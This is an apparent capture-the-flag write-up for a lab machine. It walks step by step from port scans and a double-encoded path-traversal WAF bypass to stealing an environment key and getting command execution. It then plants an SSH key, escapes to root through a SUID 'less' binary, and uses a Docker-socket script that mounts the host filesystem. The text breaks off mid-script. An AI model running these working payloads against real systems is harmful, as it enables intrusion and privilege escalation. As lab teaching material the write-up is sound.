



# Welcome to the CTRL+ALT+PWN Writeup for ZTW 2026!

## Table of Contents

- [Intro](#intro)
- [Initial Port Scan](#initial-port-scan)
- [Service Enumeration](#service-enumeration)
- [Web App Recon](#web-app-recon)
- [Directory Fuzzing](#directory-fuzzing)                                                            
- [LFI Discovery](#lfi-discovery)
- [WAF Bypass](#waf-bypass)
- [Initial Foothold](#initial-foothold)
- [ACL Misconfiguration](#acl-misconfiguration)
- [User Access](#user-access)
- [Container Discovery](#container-discovery)
- [SUID Binary Discovery](#suid-binary-discovery)
- [Less Escape](#less-escape)
- [Python Discovery](#python-discovery)
- [Container Enumeration](#container-enumeration)
- [Socket Interaction](#socket-interaction)
- [Host Filesystem Mount](#host-filesystem-mount)
- [Container Pivot](#container-pivot)
- [BONUS: SSH Access as Root](#bonus-ssh-access-as-root)

## Intro

This writeup will cover the intended path to successfully compromise the CTRL+ALT+PWN prize PC and obtain the correct flag. It should be noted that this is not the only path to successfully compromise the PC and obtain the correct flag.

All eight CTRL+ALT+PWN instances are identical in content and intended path, with the only changes being the assigned IP address and MAC address.

### Initial Port Scan

After selecting the target host, we can start our enumeration phase by performing an initial port scan with Nmap to discover what ports are accessible to us.

```
CTRL+ALT+PWN@ZTW26$ sudo nmap -Pn -T5 --open 10.10.1.11   

Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-19 11:26 -0500
Nmap scan report for 10.10.1.11
Host is up (0.029s latency).
Not shown: 993 filtered tcp ports (no-response), 5 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 15.50 seconds
```

### Service Enumeration

Now with a list of open TCP ports, we can now perform our Nmap service scan to potentially identify what applications are behind the open ports, and what operating system is running on the target host.

```
CTRL+ALT+PWN@ZTW26$ sudo nmap -sC -sV -p22,8000 -T5 10.10.1.11 --reason

Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-19 11:50 -0500
Nmap scan report for 10.10.1.11
Host is up, received reset ttl 128 (0.014s latency).

PORT     STATE SERVICE REASON          VERSION
22/tcp   open  ssh     syn-ack ttl 128 OpenSSH 10.0p2 Debian 7 (protocol 2.0)
8000/tcp open  http    syn-ack ttl 128 Gunicorn
|_http-title: Did not follow redirect to http://threa7.com:8000/?view=index.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.10 seconds
```

The service scan reveals the target host is running Linux, with port 8000 hosting a web application. 

### Web App Recon

When attempting to access the web application on port 8000, we are redirected to `http://threa7.com:8000`, which fails to resolve to an IP.



Adding the target host IP and domain to our hosts file will allow us to access the app.

```
CTRL+ALT+PWN@ZTW26$ echo -e "10.10.1.11\tthrea7.com" | sudo tee -a /etc/hosts

10.10.1.11      threa7.com
```



Accessing a non-existent page to get a 404 error allows us to identify the site as a flask web app based on the message.



### Directory Fuzzing

To identify any other accessible pages or files, we can use feroxbuster to fuzz the web app.

```
CTRL+ALT+PWN@ZTW26$ feroxbuster -u http://threa7.com:8000          

                                                                                                                                          
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://threa7.com:8000/
 🚩  In-Scope Url          │ threa7.com
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
401      GET        5l       42w      317c http://threa7.com:8000/admin
302      GET        5l       22w      265c http://threa7.com:8000/ => http://threa7.com:8000/?view=index.html
[####################] - 6m     30000/30000   0s      found:2       errors:839    
[####################] - 6m     30000/30000   86/s    http://threa7.com:8000/                                                                   
```

We now can confirm the presence of an admin page, as hinted by the notice on the site home page. Trying to access it at `http://threa7.com:8000/admin`, the admin page presents us with an authorization error.

### LFI Discovery

From the home path URL, we can identify a potential local file inclusion vulnerability `http://threa7.com:8000/?view=index.html`. As we know the web app is running through flask, we can try to read the app source code through the LFI. For flask web apps, the most common source file name is `app.py`.

```
CTRL+ALT+PWN@ZTW26$ curl -i http://threa7.com:8000/?view=../app.py
HTTP/1.1 403 FORBIDDEN
Server: gunicorn
Date: Thu, 19 Feb 2026 20:45:32 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 205


            <html>
                <body>
                    <h2>Request Blocked</h2>
                    <p>WAF: Suspicious request detected.</p>
                </body>
            </html>
                      
```

Our attempts to read the flask `app.py` file are blocked by some internal WAF rules. We can try URL encoding the path to bypass the request filtering.

```
CTRL+ALT+PWN@ZTW26$ curl -i http://threa7.com:8000/?view=%2E%2E%2Fapp.py      
HTTP/1.1 403 FORBIDDEN
Server: gunicorn
Date: Fri, 20 Feb 2026 16:29:47 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 205


            <html>
                <body>
                    <h2>Request Blocked</h2>
                    <p>WAF: Suspicious request detected.</p>
                </body>
            </html>

```

### WAF Bypass

Encoding the path once still results in a blocked request, so we can try double encoding the path and submitting the request again. 

```
CTRL+ALT+PWN@ZTW26$ curl -i http://threa7.com:8000/?view=%252E%252E%252Fapp.py
HTTP/1.1 200 OK
Server: gunicorn
Date: Fri, 20 Feb 2026 16:50:11 GMT
Connection: close
Content-Disposition: inline; filename=app.py
Content-Type: text/x-python; charset=utf-8
Content-Length: 2006
Last-Modified: Wed, 18 Feb 2026 22:16:02 GMT
Cache-Control: no-cache
ETag: "1771452962.9839993-2006-1157760774"

import os
import subprocess
import urllib.parse
from flask import Flask, request, send_file, redirect, abort

app = Flask(__name__)

@app.route('/')
def index():
    if 'view' not in request.args:
        return redirect('http://threa7.com:8000/?view=index.html', code=302)

    raw_qs = request.query_string.decode().lower()

    blocked_patterns = [
        "../",
        "..\\",
        "%2e%2e%2f",
        "%2e%2e/",
        "%2fetc%2f",
        "%2fproc%2f",
        "/etc/",
        "/proc/",
    ]

    for pattern in blocked_patterns:
        if pattern in raw_qs:
            return """
            <html>
                <body>
                    <h2>Request Blocked</h2>
                    <p>WAF: Suspicious request detected.</p>
                </body>
            </html>
            """, 403

    user_input = request.args.get('view')

    user_input = urllib.parse.unquote(user_input)

    view_path = os.path.normpath('static/' + user_input)

    if os.path.isfile(view_path):
        resp = send_file(view_path)
        resp.direct_passthrough = False

        if os.path.getsize(view_path) == 0:
            resp.headers["Content-Length"] = str(len(resp.get_data()))

        return resp

    return "File not found", 404


@app.route('/admin')
def admin():
    env_key = os.getenv("KEY")
    provided_key = request.args.get("key")
    command = request.args.get("exec")

    if not env_key or provided_key != env_key:
        abort(401)

    if not command:
        return "No command specified", 400

    try:
        result = subprocess.run(
            command,
            shell=True,
            capture_output=True,
            text=True,
            timeout=1
        )
        output = result.stdout + result.stderr
    except Exception as e:
        output = str(e)

    return f"""
    <html>
        <body>
            <h2>Output</h2>
            <pre>{output}</pre>
        </body>
    </html>
    """


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

This modified request bypasses the request filtering, and we now have the full source code of the flask web app. From the code we can immediately spot the URL filtering patterns, which were matching on our previously blocked requests. We can also confirm the functionality of the admin page discovered through feroxbuster. To successfully utilize the admin page, which can execute commands as the web app user, we must specify our desired command in the `exec` parameter, and a secret key value in the parameter `key`, which is stored in an environment variable named `KEY` respectively. To obtain the secret key value, we can read the web app environment variables through the LFI vulnerability.

```
CTRL+ALT+PWN@ZTW26$ curl -i "http://threa7.com:8000/?view=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fproc%252fself%252fenviron" --output -
HTTP/1.1 200 OK
Server: gunicorn
Date: Mon, 23 Feb 2026 18:44:37 GMT
Connection: close
Content-Disposition: inline; filename=environ
Content-Type: application/octet-stream
Content-Length: 385
Last-Modified: Mon, 23 Feb 2026 18:44:37 GMT
Cache-Control: no-cache
ETag: "1771872277.2759583-0-4196273420"

LANG=en_US.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/binUSER=www-dataLOGNAME=www-dataHOME=/var/wwwINVOCATION_ID=0f54d8dbe5b94f198ef58f142649c18cJOURNAL_STREAM=9:10322SYSTEMD_EXEC_PID=1061MEMORY_PRESSURE_WATCH=/sys/fs/cgroup/system.slice/dls.service/memory.pressureMEMORY_PRESSURE_WRITE=c29tZSAyMDAwMDAgMjAwMDAwMAA=PYTHONUNBUFFERED=1KEY=HzJTYcewTgAB4i5eDXvNevg
```

We can identify the secret key trailing the end of the response `KEY=HzJTYcewTgAB4i5eDXvNevg`. Commands can now be issued and executed through the admin page.

```
CTRL+ALT+PWN@ZTW26$ curl --get --data-urlencode "key=HzJTYcewTgAB4i5eDXvNevg" --data-urlencode "exec=id; uname -a" http://threa7.com:8000/admin


    <html>
        <body>
            <h2>Output</h2>
            <pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux CAP 6.12.73+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.73-1 (2026-02-17) x86_64 GNU/Linux
</pre>
        </body>
    </html>
```

### Initial Foothold

With command execution confirmed, we can write a small bash script to provide us with a pseudo-interactive shell.

```bash
#!/bin/bash

TARGET="http://threa7.com:8000/admin"
KEY="HzJTYcewTgAB4i5eDXvNevg"

unset HISTFILE
HISTSIZE=1000
set -o history

while true; do
    read -e -r -p "> " CMD

    if [[ "$CMD" == "exit" || "$CMD" == "quit" ]]; then
        break
    fi

    if [[ -z "$CMD" ]]; then
        continue
    fi

    history -s "$CMD"

    RESPONSE=$(curl --silent --get \
        --data-urlencode "key=$KEY" \
        --data-urlencode "exec=$CMD" \
        "$TARGET")

    echo "$RESPONSE" | sed -n '/<pre>/,/<\/pre>/{
        s/.*<pre>//;
        s/<\/pre>.*//;
        p
    }'
done
```

### ACL Misconfiguration

Running basic enumeration commands confirms our shell is running under the web app user `www-data`. Listing the user directories in `/home` reveals two users, `john` and `developer`.

```
CTRL+ALT+PWN@ZTW26$ chmod +x shell.sh
            
CTRL+ALT+PWN@ZTW26$ ./shell.sh 

> id; uname -a; ls -lah /home
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux CAP 6.12.73+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.73-1 (2026-02-17) x86_64 GNU/Linux
total 16K
drwxr-xr-x   4 root      root      4.0K Feb 24 11:00 .
drwxr-xr-x  18 root      root      4.0K Feb 24 10:55 ..
drwx------   3 developer developer 4.0K Feb 24 11:09 developer
drwxr-x---+  3 john      john      4.0K Feb 24 11:06 john
```

Attempting to access the `developer` home directory results in a permission denied error, but the `john` home directory has a special ACL set, so we can assess the access available.

```
> ls -lah /home/developer
ls: cannot open directory '/home/developer': Permission denied

> ls -lah /home/john
total 24K
drwxr-x---+ 3 john john 4.0K Feb 24 11:06 .
drwxr-xr-x  4 root root 4.0K Feb 24 11:00 ..

truncated due to length...

-rw-r--r--  1 john john  220 Feb 24 11:00 .bash_logout
-rw-r--r--  1 john john 3.5K Feb 24 11:00 .bashrc
-rw-r--r--  1 john john  807 Feb 24 11:00 .profile
drwxr-x---+ 2 john john 4.0K Feb 24 11:06 .ssh
```

The `.ssh` directory additionally has a special ACL set, so we can evaluate the access again.

```
> ls -lah /home/john/.ssh/
total 8.0K
drwxr-x---+ 2 john john 4.0K Feb 24 11:06 .
drwxr-x---+ 3 john john 4.0K Feb 24 11:06 ..
-rw-rw----+ 1 john john    0 Feb 24 11:06 authorized_keys
```

Checking access to the `authorized_keys` file with `getfacl` reveals the user `www-data` has write access.

```
> getfacl /home/john/.ssh/authorized_keys
# file: home/john/.ssh/authorized_keys
# owner: john
# group: john
user::rw-
user:www-data:rw-
group::---
mask::rw-
other::---

getfacl: Removing leading '/' from absolute path names
```

We can generate a key pair, and attempt to write our public key into `authorized_keys`.

```
> echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINE5JGQPuOW4XXCRCwSDSZo5V/FyuFLo8FcauA6Qei0B" > /home/john/.ssh/authorized_keys

        </body>
    </html>
    
> cat  /home/john/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINE5JGQPuOW4XXCRCwSDSZo5V/FyuFLo8FcauA6Qei0B
```

### User Access

We can now SSH in as the user `john`.

```
CTRL+ALT+PWN@ZTW26$ ssh -i ~/.ssh/id_ed25519 john@threa7.com
Linux CAP 6.12.73+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.73-1 (2026-02-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

john@CAP:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),100(users)
```

Searching through the file system reveals two interesting directories in `/opt`, `internal`, and `dls-container`.

```
john@CAP:~$ ls -lah /opt; ls -lah /var; ls -lah /usr
total 16K
drwxr-xr-x  4 root root 4.0K Feb 24 11:09 .
drwxr-xr-x 18 root root 4.0K Feb 24 10:55 ..
drwxr-xr-x  2 root root 4.0K Feb 24 11:09 dls-container
drwxr-xr-x  2 root root 4.0K Feb 24 11:10 internal
total 52K
drwxr-xr-x 12 root root 4.0K Feb 24 11:04 .
drwxr-xr-x 18 root root 4.0K Feb 24 10:55 ..
drwxr-xr-x  2 root root 4.0K Jan  2 07:35 backups

truncated due to length...

-rw-r--r--  1 root root  208 Feb 24 10:52 .updated
drwxr-xr-x  3 root root 4.0K Feb 24 11:04 www
total 72K
drwxr-xr-x 12 root root 4.0K Feb 24 10:52 .
drwxr-xr-x 18 root root 4.0K Feb 24 10:55 ..
drwxr-xr-x  2 root root  20K Feb 24 11:07 bin

truncated due to length...

drwxr-xr-x  2 root root 4.0K Jan  2 07:35 src
```

Checking `dls-container` reveals nothing, but `internal` is home to a text file named `reminder.txt`. The reminder left behind hints at the presence of a container platform, including a potential container image name.


```
john@CAP:~$ ls -lah /opt/dls-container/
total 8.0K
drwxr-xr-x 2 root root 4.0K Feb 24 11:09 .
drwxr-xr-x 4 root root 4.0K Feb 24 11:09 ..

john@CAP:~$ ls -lah /opt/internal/
total 12K
drwxr-xr-x 2 root root 4.0K Feb 24 11:10 .
drwxr-xr-x 4 root root 4.0K Feb 24 11:09 ..
-rw-r--r-- 1 root root  148 Feb 24 11:10 reminder.txt

john@CAP:~$ cat /opt/internal/reminder.txt 
Backup Migration Notice

The legacy victim data backup system has been migrated to containers (dls-backup:1.0). Do NOT store backups anywhere else.
```

### Container Discovery

Using `systemctl`, the presence of containers can be confirmed, as docker is installed and active. Unfortunately the user `john` is not in the `docker` group, so we are unable to interact with the docker daemon socket.

```
john@CAP:~$ id; systemctl status docker
uid=1001(john) gid=1001(john) groups=1001(john),100(users)
● docker.service - Docker Application Container Engine
     Loaded: loaded (/usr/lib/systemd/system/docker.service; enabled; preset: enabled)
     Active: active (running) since Tue 2026-02-24 13:38:46 EST; 2h 20min ago
 Invocation: 5ea16ea5974442e083bd4e0c14226062
TriggeredBy: ● docker.socket
       Docs: https://docs.docker.com
   Main PID: 1070 (dockerd)
      Tasks: 10
     Memory: 114.8M (peak: 116.6M)
        CPU: 2.240s
     CGroup: /system.slice/docker.service
             └─1070 /usr/sbin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock

Warning: some journal files were not opened due to insufficient permissions.

john@CAP:~$ docker images
permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Head "http://%2Fvar%2Frun%2Fdocker.sock/_ping": dial unix /var/run/docker.sock: connect: permission denied
```

### SUID Binary Discovery

Continuing standard Linux enumeration, we search for any binaries with the SUID bit set. There are several standard binaries with the SUID bit set, with `/usr/local/bin/backup-status` standing out as the only custom binary.

```
john@CAP:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/su
/usr/bin/mount
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/local/bin/backup-status
```

### Less Escape

Executing `/usr/local/bin/backup-status` drops us into a backup job status file. Pressing `h` brings up the `less` help menu. As `less` features built-in command execution capabilities, we can escape from the editor to a shell.

```
john@CAP:~$ /usr/local/bin/backup-status


Pending backup jobs...

Larkspur & Quill Logistics LLC
Northlake Meridian Health Network Ltd
Boreal Crest Components GmbH
Citrine Harbor Credit Union
Saffron Vale Retail Group PLC
Greyson Polytechnic Institute
HelioSpan Energy Services S.A.
Juniper Threadworks Software Inc

!/bin/sh

# id; uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux d1af3ef61ce7 6.12.73+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.73-1 (2026-02-17) x86_64 GNU/Linux
```

### Python Discovery

The shell through `less` is running as `root`, however the file system appears untouched, with the only notable outlier being an installation of python 3.

```
# ls -lah /home /var /opt /bin /root /usr/bin
lrwxrwxrwx 1 root root    7 Jan  2 12:35 /bin -> usr/bin

/home:
total 8.0K
drwxr-xr-x 2 root root 4.0K Jan  2 12:35 .
drwxr-xr-x 1 root root 4.0K Feb 24 16:08 ..

/opt:
total 8.0K
drwxr-xr-x 2 root root 4.0K Feb  2 00:00 .
drwxr-xr-x 1 root root 4.0K Feb 24 16:08 ..

/root:
total 20K
drwx------ 1 root root 4.0K Feb 25 17:52 .
drwxr-xr-x 1 root root 4.0K Feb 24 16:08 ..
-rw-r--r-- 1 root root  607 Jan  2 12:35 .bashrc
-rw------- 1 root root   63 Feb 25 17:52 .lesshst
-rw-r--r-- 1 root root  132 Jan  2 12:35 .profile

/usr/bin:
total 33M
drwxr-xr-x 1 root root   4.0K Feb 24 16:08  .
drwxr-xr-x 1 root root   4.0K Feb  2 00:00  ..
-rwxr-xr-x 1 root root    55K Jun  4  2025 '['
-rwxr-xr-x 1 root root    19K Jun 24  2025  apt
-rwxr-xr-x 1 root root    91K Jun 24  2025  apt-cache
-rwxr-xr-x 1 root root    27K Jun 24  2025  apt-cdrom
-rwxr-xr-x 1 root root    31K Jun 24  2025  apt-config
-rwxr-xr-x 1 root root    59K Jun 24  2025  apt-get
-rwxr-xr-x 1 root root    63K Jun 24  2025  apt-mark

truncated due to length...

-rwxr-xr-x 1 root root    63K Jun  4  2025  ptx
-rwxr-xr-x 1 root root    43K Jun  4  2025  pwd
-rwxr-xr-x 1 root root   7.6K Jun 30  2025  py3clean
-rwxr-xr-x 1 root root    13K Jun 30  2025  py3compile
lrwxrwxrwx 1 root root     31 Jun 30  2025  py3versions -> ../share/python3/py3versions.py
lrwxrwxrwx 1 root root     10 Jun 30  2025  python3 -> python3.13
-rwxr-xr-x 1 root root   6.6M Jun 25  2025  python3.13
lrwxrwxrwx 1 root root      4 Jan  2 14:01  rbash -> bash

truncated due to length...

-rwxr-xr-x 1 root root   4.5K Jan 17  2025  znew

/var:
total 60K
drwxr-xr-x 1 root root 4.0K Feb  2 00:00 .
drwxr-xr-x 1 root root 4.0K Feb 24 16:08 ..
drwxr-xr-x 2 root root 4.0K Jan  2 12:35 backups
drwxr-xr-x 1 root root 4.0K Feb  2 00:00 cache
drwxr-xr-x 1 root root 4.0K Feb 24 16:08 lib
drwxr-xr-x 2 root root 4.0K Jan  2 12:35 local
lrwxrwxrwx 1 root root    9 Feb  2 00:00 lock -> /run/lock
drwxr-xr-x 1 root root 4.0K Feb 24 16:08 log
drwxrwsr-x 2 root mail 4.0K Feb  2 00:00 mail
drwxr-xr-x 2 root root 4.0K Feb  2 00:00 opt
lrwxrwxrwx 1 root root    4 Feb  2 00:00 run -> /run
drwxr-xr-x 2 root root 4.0K Feb  2 00:00 spool
drwxrwxrwt 2 root root 4.0K Jan  2 12:35 tmp
```

### Container Enumeration

The bare file system raises the suspicion that this shell exists within a docker container, which we identified as installed and running, this can be confirmed by the presence of a `.dockerenv` file in `/`.

```
# ls -la /
total 68
drwxr-xr-x    1 root root 4096 Feb 24 16:08 .
drwxr-xr-x    1 root root 4096 Feb 24 16:08 ..
-rwxr-xr-x    1 root root    0 Feb 24 16:08 .dockerenv

truncated due to length...
```

Checking if the root file system is mounted in the container leads nowhere, however the docker socket is exposed to root, which we are running as.

```
# ls -lah /mnt
total 8.0K
drwxr-xr-x 2 root root 4.0K Feb  2 00:00 .
drwxr-xr-x 1 root root 4.0K Feb 24 16:08 ..

# ls -lah /var/run/docker.sock
srw-rw---- 1 root 103 0 Feb 24 18:38 /var/run/docker.sock
```

### Socket Interaction

We can attempt to interact with the docker socket using python in the container to validate our access.

```python
import socket
s = socket.socket(socket.AF_UNIX,socket.SOCK_STREAM)
s.connect("/var/run/docker.sock")
s.send(b"GET /version HTTP/1.1\r\nHost: localhost\r\n\r\n")
print(s.recv(4096).decode())
s.close()
```

```
# python3 - << 'EOF'
import socket
s = socket.socket(socket.AF_UNIX,socket.SOCK_STREAM)
s.connect("/var/run/docker.sock")
s.send(b"GET /version HTTP/1.1\r\nHost: localhost\r\n\r\n")
print(s.recv(4096).decode())
s.close()
EOF> > > > > > > 

HTTP/1.1 200 OK
Api-Version: 1.45
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Wed, 25 Feb 2026 20:35:08 GMT
Content-Length: 793

{"Platform":{"Name":""},"Components":[{"Name":"Engine","Version":"26.1.5+dfsg1","Details":{"ApiVersion":"1.45","Arch":"amd64","BuildTime":"2026-01-02T14:41:00.000000000+00:00","Experimental":"false","GitCommit":"411e817","GoVersion":"go1.24.4","KernelVersion":"6.12.73+deb13-amd64","MinAPIVersion":"1.24","Os":"linux"}},{"Name":"containerd","Version":"1.7.24~ds1","Details":{"GitCommit":"1.7.24~ds1-6+deb13u1"}},{"Name":"runc","Version":"1.1.15+ds1","Details":{"GitCommit":"1.1.15+ds1-2+b4"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":""}}],"Version":"26.1.5+dfsg1","ApiVersion":"1.45","MinAPIVersion":"1.24","GitCommit":"411e817","GoVersion":"go1.24.4","Os":"linux","Arch":"amd64","KernelVersion":"6.12.73+deb13-amd64","BuildTime":"2026-01-02T14:41:00.000000000+00:00"}
```

After formatting the response, reading it reveals we do have access to the docker daemon through the exposed socket.

```json
{
    "Platform": {
        "Name": ""
    },
    "Components": [
        {
            "Name": "Engine",
            "Version": "26.1.5+dfsg1",
            "Details": {
                "ApiVersion": "1.45",
                "Arch": "amd64",
                "BuildTime": "2026-01-02T14:41:00.000000000+00:00",
                "Experimental": "false",
                "GitCommit": "411e817",
                "GoVersion": "go1.24.4",
                "KernelVersion": "6.12.73+deb13-amd64",
                "MinAPIVersion": "1.24",
                "Os": "linux"
            }
        },
        {
            "Name": "containerd",
            "Version": "1.7.24~ds1",
            "Details": {
                "GitCommit": "1.7.24~ds1-6+deb13u1"
            }
        },
        {
            "Name": "runc",
            "Version": "1.1.15+ds1",
            "Details": {
                "GitCommit": "1.1.15+ds1-2+b4"
            }
        },
        {
            "Name": "docker-init",
            "Version": "0.19.0",
            "Details": {
                "GitCommit": ""
            }
        }
    ],
    "Version": "26.1.5+dfsg1",
    "ApiVersion": "1.45",
    "MinAPIVersion": "1.24",
    "GitCommit": "411e817",
    "GoVersion": "go1.24.4",
    "Os": "linux",
    "Arch": "amd64",
    "KernelVersion": "6.12.73+deb13-amd64",
    "BuildTime": "2026-01-02T14:41:00.000000000+00:00"
}
```

### Host Filesystem Mount

Through the docker daemon socket, we can once again use python to create and start a container with the `dls-backup:1.0` image that binds to the host file system, executes a command, and returns the result back through the socket to our shell within the container.

```python
import socket, json, re

def request(payload):
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/var/run/docker.sock")
    s.send(payload.encode())
    data = b""
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
    s.close()
    return data.decode(errors="ignore")

payload = json.dumps({
    "Image": "dls-backup:1.0",
    "Cmd": ["ls", "-lah", "/host/root"],
    "HostConfig": {
        "Binds": ["/:/host"],
        "Privileged": True
    }
})

req = (
    "POST /containers/create HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n"
    "Content-Type: application/json\r\n"
    f"Content-Length: {len(payload)}\r\n\r\n"
    f"{payload}"
)

resp = request(req)
print(resp)

container_id = re.search(r'"Id":"([^"]+)"', resp).group(1)

start_req = (
    f"POST /containers/{container_id}/start HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n"
)

print(request(start_req))

logs_req = (
